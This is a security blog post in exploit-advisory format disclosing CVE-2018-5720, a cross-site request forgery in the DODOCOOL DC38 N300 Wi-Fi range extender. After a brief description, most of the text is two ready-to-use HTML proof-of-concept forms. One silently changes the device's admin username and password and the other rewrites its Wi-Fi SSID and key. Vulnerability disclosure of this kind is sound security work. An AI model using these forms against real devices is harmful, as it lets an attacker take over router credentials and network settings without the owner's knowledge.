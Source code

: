 ```yaml
---
layout: post
title:  "DODOCOOL DC38 N300 Cross-site Request Forgery"
date: 2018-01-24 21:30:00
categories:
    - blog
tags:
    - pentest
---
```


&#35; Exploit Title: DODOCOOL DC38 N300 Cross-site Request Forgery

&#35; Date: 17-01-2018

&#35; Exploit Authors: Raffaele Sabato

&#35; Contact: https://twitter.com/syrion89

&#35; Vendor: DODOCOOL

&#35; Vendor Homepage: www.dodocool.com

&#35; Version: RTN2-AW.GD.R3465.1.20161103

&#35; CVE: CVE-2018-5720

# I DESCRIPTION
&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;

An issue was discovered in DODOCOOL DC38 3-in-1 N300 Mini Wireless Range Extend RTN2-AW.GD.R3465.1.20161103 devices. A Cross-site request forgery (CSRF) vulnerability allows remote attackers to hijack the authentication of users for requests that modify the configuration.
This vulnerability may lead to gues Wi-Fi activating, Wi-Fi password changing, etc.

# II PROOF OF CONCEPT
&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;&#x3d;

&#35;&#35; Change user username and password (test_username:test_password):

~~~
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.10.1/boafrm/formPasswordSetup" method="POST">
      <input type="hidden" name="submit&#45;url" value="&#47;setok&#46;htm&#63;bw&#61;main&#46;htm" />
      <input type="hidden" name="submit&#45;value" value="" />
      <input type="hidden" name="username" value="test&#95;username" />
      <input type="hidden" name="newpass" value="test&#95;password" />
      <input type="hidden" name="confpass" value="test&#95;password" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~

&#35;&#35; Change WiFi Configuration (WIFI_TEST:TestTest):

~~~
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.10.1/boafrm/formWlanSetupREP" method="POST">
      <input type="hidden" name="submit&#45;url" value="&#47;setok&#46;htm&#63;bw&#61;wl&#95;rep&#46;htm" />
      <input type="hidden" name="submit&#45;value" value="repset" />
      <input type="hidden" name="wl&#95;onoff" value="0" />
      <input type="hidden" name="wps&#95;clear&#95;configure&#95;by&#95;reg" value="0" />
      <input type="hidden" name="wlProfileId" value="" />
      <input type="hidden" name="wl&#95;mode" value="0" />
      <input type="hidden" name="wl&#95;authType" value="auto" />
      <input type="hidden" name="wepEnabled" value="ON" />
      <input type="hidden" name="weplength" value="" />
      <input type="hidden" name="wepformat" value="" />
      <input type="hidden" name="wl&#95;wpaAuth" value="psk" />
      <input type="hidden" name="wl&#95;pskFormat" value="0" />
      <input type="hidden" name="wl&#95;pskValue" value="TestTest" />
      <input type="hidden" name="wl&#95;ssid" value="WIFI_TEST" />
      <input type="hidden" name="wl&#95;Method" value="6" />
      <input type="hidden" name="wep&#95;key" value="" />
      <input type="hidden" name="ciphersuite" value="tkip&#43;aes" />
      <input type="hidden" name="ciphersuite" value="aes" />
      <input type="hidden" name="wpa2ciphersuite" value="tkip&#43;aes" />
      <input type="hidden" name="wpa2ciphersuite" value="aes" />
      <input type="hidden" name="web&#95;pskValue" value="TestTest" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~